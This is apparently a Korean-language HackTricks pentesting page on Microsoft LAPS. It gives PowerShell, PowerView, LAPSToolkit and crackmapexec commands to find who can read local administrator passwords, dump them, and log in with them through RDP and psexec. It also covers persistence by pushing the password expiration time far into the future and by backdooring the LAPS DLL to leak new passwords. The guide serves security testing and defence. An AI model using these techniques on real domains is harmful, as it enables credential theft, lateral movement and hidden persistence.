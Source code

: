 # LAPS

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## 기본 정보

Local Administrator Password Solution (LAPS)는 **관리자 비밀번호**를 관리하는 도구로, 이 비밀번호는 **고유하고 무작위이며 자주 변경**됩니다. 이 비밀번호는 도메인에 가입된 컴퓨터에 적용됩니다. 이러한 비밀번호는 Active Directory 내에 안전하게 저장되며, Access Control Lists (ACLs)를 통해 권한이 부여된 사용자만 접근할 수 있습니다. 클라이언트에서 서버로의 비밀번호 전송 보안은 **Kerberos version 5**와 **Advanced Encryption Standard (AES)**를 사용하여 보장됩니다.

도메인의 컴퓨터 객체에서 LAPS의 구현은 두 개의 새로운 속성인 **`ms-mcs-AdmPwd`**와 **`ms-mcs-AdmPwdExpirationTime`**의 추가로 이어집니다. 이 속성들은 각각 **일반 텍스트 관리자 비밀번호**와 **만료 시간**을 저장합니다.

### 활성화 여부 확인
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS 비밀번호 접근

`\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol`에서 **원시 LAPS 정책을 다운로드**한 다음, [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) 패키지의 **`Parse-PolFile`**을 사용하여 이 파일을 사람이 읽을 수 있는 형식으로 변환할 수 있습니다.

또한, **네이티브 LAPS PowerShell cmdlets**는 우리가 접근할 수 있는 머신에 설치되어 있다면 사용할 수 있습니다:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView**는 **누가 비밀번호를 읽을 수 있는지와 그것을 읽는지** 알아내는 데에도 사용될 수 있습니다:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)는 여러 기능을 통해 LAPS의 열거를 용이하게 합니다.\
하나의 기능은 **LAPS가 활성화된 모든 컴퓨터에 대한 `ExtendedRights`**를 파싱하는 것입니다. 이는 **LAPS 비밀번호를 읽도록 특별히 위임된 그룹**을 보여주며, 이러한 그룹은 종종 보호된 그룹의 사용자입니다.\
**도메인에 컴퓨터를 가입시킨 계정**은 해당 호스트에 대한 `All Extended Rights`를 받으며, 이 권한은 **비밀번호를 읽을 수 있는 능력**을 부여합니다. 열거를 통해 호스트에서 LAPS 비밀번호를 읽을 수 있는 사용자 계정을 보여줄 수 있습니다. 이는 LAPS 비밀번호를 읽을 수 있는 **특정 AD 사용자**를 **타겟팅하는 데** 도움이 될 수 있습니다.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**

powershell에 접근할 수 없는 경우, LDAP를 사용하여 이 권한을 원격으로 악용할 수 있습니다.
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
이것은 사용자가 읽을 수 있는 모든 비밀번호를 덤프하여 다른 사용자로 더 나은 발판을 마련할 수 있게 해줍니다.

## ** LAPS 비밀번호 사용 **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS 지속성**

### **만료 날짜**

관리자가 되면, **비밀번호를 얻고** **업데이트**를 **방지**하기 위해 **만료 날짜를 미래로 설정**할 수 있습니다.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
> [!WARNING]
> 비밀번호는 **admin**이 **`Reset-AdmPwdPassword`** cmdlet을 사용할 경우 여전히 재설정됩니다. 또는 LAPS GPO에서 **정책에 의해 요구되는 것보다 긴 비밀번호 만료 시간을 허용하지 않음**이 활성화된 경우에도 마찬가지입니다.

### 백도어

LAPS의 원본 소스 코드는 [여기](https://github.com/GreyCorbel/admpwd)에서 찾을 수 있으며, 따라서 코드에 백도어를 삽입하는 것이 가능합니다 (예: `Main/AdmPwd.PS/Main.cs`의 `Get-AdmPwdPassword` 메서드 내부) 이 백도어는 어떤 식으로든 **새 비밀번호를 유출하거나 어딘가에 저장**할 수 있습니다.

그런 다음, 새로운 `AdmPwd.PS.dll`을 컴파일하고 `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll`에 업로드합니다 (그리고 수정 시간을 변경합니다).

## 참고문헌

- [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../../banners/hacktricks-training.md}}
